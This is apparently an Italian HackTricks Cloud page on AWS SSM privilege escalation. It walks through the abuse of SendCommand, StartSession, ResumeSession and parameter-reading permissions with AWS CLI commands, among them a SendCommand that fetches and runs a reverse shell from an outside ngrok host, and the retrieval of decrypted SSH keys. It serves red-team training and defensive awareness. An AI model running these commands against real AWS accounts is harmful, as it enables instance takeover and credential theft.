 # AWS - SSM Privesc

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## SSM

Per ulteriori informazioni su SSM controlla:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un attaccante con il permesso **`ssm:SendCommand`** può **eseguire comandi nelle istanze** che eseguono l'Amazon SSM Agent e **compromettere il ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Nel caso in cui tu stia utilizzando questa tecnica per elevare i privilegi all'interno di un'istanza EC2 già compromessa, potresti semplicemente catturare la rev shell localmente con:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 attaccati a istanze in esecuzione con SSM Agents in esecuzione.

### `ssm:StartSession`

Un attaccante con il permesso **`ssm:StartSession`** può **avviare una sessione simile a SSH nelle istanze** che eseguono l'Amazon SSM Agent e **compromettere il Ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Per avviare una sessione è necessario avere installato il **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 associati alle istanze in esecuzione con SSM Agents attivi.

#### Privesc a ECS

Quando i **compiti ECS** vengono eseguiti con **`ExecuteCommand` abilitato**, gli utenti con permessi sufficienti possono utilizzare `ecs execute-command` per **eseguire un comando** all'interno del contenitore.\
Secondo [**la documentazione**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), questo avviene creando un canale sicuro tra il dispositivo utilizzato per avviare il comando “_exec_” e il contenitore di destinazione con SSM Session Manager. (Plugin SSM Session Manager necessario affinché questo funzioni)\
Pertanto, gli utenti con `ssm:StartSession` saranno in grado di **ottenere una shell all'interno dei compiti ECS** con quell'opzione abilitata semplicemente eseguendo:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impatto Potenziale:** Privesc diretto ai ruoli `ECS`IAM allegati ai task in esecuzione con `ExecuteCommand` abilitato.

### `ssm:ResumeSession`

Un attaccante con il permesso **`ssm:ResumeSession`** può ri-**avviare una sessione simile a SSH in istanze** che eseguono l'Amazon SSM Agent con uno stato di sessione SSM **disconnesso** e **compromettere il Ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 attaccati a istanze in esecuzione con agenti SSM in esecuzione e sessioni disconnesse.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaccante con i permessi menzionati sarà in grado di elencare i **parametri SSM** e **leggerli in chiaro**. In questi parametri puoi frequentemente **trovare informazioni sensibili** come chiavi SSH o chiavi API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno dei parametri.

### `ssm:ListCommands`

Un attaccante con questo permesso può elencare tutti i **comandi** inviati e sperare di trovare **informazioni sensibili** in essi.
```
aws ssm list-commands
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno delle righe di comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaccante con questi permessi può elencare tutti i **comandi** inviati e **leggere l'output** generato sperando di trovare **informazioni sensibili** in esso.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno dell'output delle righe di comando.

### Codebuild

Puoi anche utilizzare SSM per accedere a un progetto codebuild in fase di costruzione:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
